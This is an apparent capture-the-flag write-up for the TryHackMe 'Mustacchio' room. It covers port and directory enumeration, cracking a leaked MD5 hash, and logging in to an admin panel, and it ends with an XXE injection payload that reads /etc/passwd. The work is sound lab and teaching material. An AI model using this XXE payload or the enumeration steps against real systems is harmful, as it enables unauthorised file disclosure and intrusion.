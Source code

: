 # Mustacchio

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here we find a users.bak file. We can download and check the contents.
Which seem to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

So now we have a username: Admin 

http:10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

This portal contains a blog for "mustacchio" brand for all mankind!

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

Checking the webpages source code revealed nothing, but i noted a mobile.js script file included. Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/ 
We get a hit

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

After loggin in we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some xml!
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list
After injection, some text appereard at the bottom of the page, indicating some structure needed for the xml.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was Comment Preview,Name, Author, Comment. I built a simuilar xml element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747246-05572300-caff-11eb-8005-17bd6a5b86aa.png)
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)



